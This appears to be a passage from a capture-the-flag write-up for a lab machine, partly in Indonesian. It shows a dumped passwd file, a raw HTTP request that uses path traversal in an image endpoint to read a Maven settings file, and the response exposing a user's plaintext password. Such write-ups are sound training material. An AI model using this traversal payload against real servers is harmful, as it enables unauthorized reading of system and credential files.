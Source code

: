 ```json
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false

```


###### exploitasi user

```json
GET /show_image?img=../../../../../../../../../../../../../home/frank/.m2/settings.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.204:8080/upload
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=1


```


**response**
```json
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 617
Date: Tue, 18 Jun 2024 06:13:55 GMT
Keep-Alive: timeout=60
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

```

